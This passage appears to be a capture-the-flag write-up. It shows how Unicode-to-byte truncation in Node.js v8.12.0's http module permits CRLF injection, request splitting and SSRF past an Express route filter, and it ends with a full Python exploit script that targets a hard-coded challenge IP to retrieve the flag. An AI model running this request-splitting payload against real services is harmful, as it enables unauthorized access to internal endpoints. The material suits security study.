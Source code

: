 1. `:page` doesn't contain `flag`
2. `:page` starts with `public_notes`, `public_links` or `source_code`
3. cannot contain `/` (because `express` params is split by `/`)

Okay, so let's take a look at how many parser are parsing our request:
1. client browser (curl/firefox/chrome)
2. express parameter `:page`
3. nodejs `http` module
4. express router

Actually 1 is not necessary, but just a friendly reminder: your browser might parse your url first, e.g.: `/asd/../ggg` becomes `/ggg`.

The most possible parsers to exploit are 2 and 3. Note that the server even gives the version information. After a few fuzzing, I found in 2 you can pass some non-pritable chracter through percent-encoding. In 3 you can use backslash to represent `/`. 

However it's still not enough to bypass the constraint 2. 

Then I start to google some interesting information of path parsing. I remember in blackhat 2017, there is an great [SSRF slide by Orange Tsai from Taiwan](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf). Please refer to page 44.

In nodejs v8.12.0 http module:
```
http.get('http://localhost:1234/\uff2e\uff2e')

GET /.. HTTP/1.1
Host: localhost:1234
Connection: close
```

Actually we can do some CSRF injection here using `\uff0d\uff0a`. Another interesting ariticle of CSRF injection I found is [request splitting by Ryan Kelly](https://www.rfk.id.au/blog/entry/security-bugs-ssrf-via-request-splitting/). We can inject two CRLFs to make the nodejs socket send another request!

The rest is trivial. Just send the request to `/flag/:token`. Here is the final payload:

```python
#!/usr/bin/env python3
import hashlib
from urllib.parse import quote, unquote
import socket                                                                                                          

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect(('162.243.23.15', 8002))

uni = { 
    '/': quote('\uff2f'.encode('utf-8')),
    ' ': quote('\uff20'.encode('utf-8')),
    '\n': quote('\uff0a'.encode('utf-8')),
    '\r': quote('\uff0d'.encode('utf-8')),
    'g': quote('\uff67'.encode('utf-8')),
}
print(uni)
payload = 'public_notes HTTP/1.1\r\n\r\nGET /flag/taiwannumberone HTTP/1.1\r\nVia:'
for c, encoded in uni.items():
    payload = payload.replace(c, encoded)
print(payload)
sock.send(f'GET /proxy/internal_website/{payload} HTTP/1.1\r\n\r\n'.encode())
print(*sock.recv(8192).split(b'\r\n'), sep='\n')
md5sum = hashlib.md5(b'127.0.0.1taiwannumberone').hexdigest()
sock.send(f'GET /temp/{md5sum} HTTP/1.1\r\n\r\n'.encode())
print(*sock.recv(8192).split(b'\r\n'), sep='\n')
sock.close()
```